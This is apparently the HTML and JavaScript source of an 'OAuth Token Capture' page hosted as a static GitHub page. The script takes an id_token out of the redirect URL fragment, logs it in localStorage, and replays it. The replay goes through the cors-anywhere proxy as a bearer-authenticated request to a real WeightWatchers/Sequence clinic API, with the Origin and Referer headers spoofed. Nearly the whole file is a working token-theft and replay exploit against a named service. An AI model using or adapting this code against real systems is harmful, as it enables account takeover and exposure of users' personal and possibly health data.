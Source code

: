 <!DOCTYPE html>
<html>
<head>
  <title>OAuth Token Capture</title>
</head>
<body>
  <h1>OAuth Token Capture (Static GitHub Page)</h1>
  <p id="status">Waiting for token...</p>
  <textarea id="log" rows="20" cols="100" readonly></textarea>
  <button onclick="makeAuthorizedRequest()">🌐 Send Authenticated Request</button>
  <iframe id="responseFrame" style="width:100%; height:300px; border:1px solid #ccc; margin-top:1em;"></iframe>

  <script>
    const hash = window.location.hash;
    const regexMatch = hash.match(/\/auth#(.*?)\&state=/);
    const id_token = regexMatch ? regexMatch[1] : null;

    const logBox = document.getElementById("log");
    const status = document.getElementById("status");

    if (id_token) {
      const shortToken = id_token.slice(0, 20) + '...' + id_token.slice(-20); // Truncate token
      const time = new Date().toISOString();
      const entry = `--- ${time} ---\nToken: ${shortToken}\nURL: ${window.location.href.split("#")[0]}\n\n`;

      const existing = localStorage.getItem("token_logs") || "";
      const updated = existing + entry;
      localStorage.setItem("token_logs", updated);

      logBox.value = updated;
      status.textContent = "✅ Token captured and saved in your browser (localStorage).";
    } else {
      status.textContent = "⚠️ No id_token found in URL fragment.";
      logBox.value = localStorage.getItem("token_logs") || "";
    }

    function makeAuthorizedRequest() {
      if (!id_token) return alert("No token found to send");

      const proxyUrl = "https://cors-anywhere.herokuapp.com/";
      const targetUrl = "https://ww-integration-api.joinsequence.com/api/v1/ww/clinic-tab-init?locale=en-US&path=%2F";

      fetch(proxyUrl + targetUrl, {
        method: "GET",
        headers: {
          "Authorization": `Bearer ${id_token}`,
          "Accept": "application/json, text/plain, */*",
          "Ww-Ssid": "en-US-1466641065.1750185",
          "Ww-Client": "rsw",
          "Origin": "https://www.weightwatchers.com",
          "Referer": "https://www.weightwatchers.com/"
        }
      })
      .then(response => response.text())
      .then(data => {
        const frame = document.getElementById("responseFrame");
        frame.srcdoc = `<pre>${data.replace(/</g, '&lt;')}</pre>`;
      })
      .catch(err => alert("Error making request: " + err));
    }
  </script>
</body>
</html>
